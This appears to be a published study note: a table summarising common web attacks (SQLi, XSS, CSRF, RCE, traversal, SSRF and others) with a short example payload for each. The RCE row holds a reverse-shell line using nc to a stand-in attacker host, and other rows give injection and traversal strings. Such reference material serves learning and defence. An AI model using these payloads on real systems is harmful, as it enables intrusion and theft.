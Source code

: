 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/0-attack-web/","noteIcon":"","created":"2025-04-15T14:11:19.597-04:00"}
---
```






| Attack Type     | Description                                                                 | How It Works                                                                 | Example                                                              |
|------------------|-----------------------------------------------------------------------------|------------------------------------------------------------------------------|----------------------------------------------------------------------|
| SQL Injection (SQLi) | Injects malicious SQL into input fields to manipulate DB queries          | Attacker modifies query to extract or manipulate data                        | `SELECT * FROM users WHERE id='1' OR '1'='1'`                         |
| Cross-Site Scripting (XSS) | Injects malicious scripts into web pages                             | Scripts execute in the victim’s browser                                      | `<script>alert('XSS')</script>`                                      |
| Cross-Site Request Forgery (CSRF) | Forces users to execute unwanted actions                     | Exploits authenticated sessions by tricking browser                          | `<img src="http://target/delete?user=1">`                            |
| Remote Code Execution (RCE) | Executes attacker-controlled code on the server                     | Input is passed directly to system functions                                 | `; nc attacker.com 4444 -e /bin/bash`                                |
| Directory Traversal | Accesses files outside the web root                                      | Manipulates file paths using `../`                                           | `/download?file=../../etc/passwd`                                   |
| File Upload Vulnerability | Uploads malicious files to the server                               | Server allows unsafe file types or paths                                     | Uploading `shell.php` and accessing it via URL                      |
| Command Injection  | Injects system commands through user input                                 | Input passed unsanitized to shell commands                                   | `ping 127.0.0.1; whoami`                                             |
| Insecure Deserialization | Executes code by deserializing untrusted input                      | Malformed serialized objects trigger code execution                          | Java/PHP object with injected payload                                |
| Broken Access Control | Bypasses restrictions to access unauthorized data/functions             | Direct access to APIs/URLs without proper checks                             | Accessing `/admin` without being admin                               |
| Server-Side Request Forgery (SSRF) | Forces the server to make requests to internal services        | Input like URLs is used by the server to fetch resources                     | `http://localhost:8080/admin`                                       |

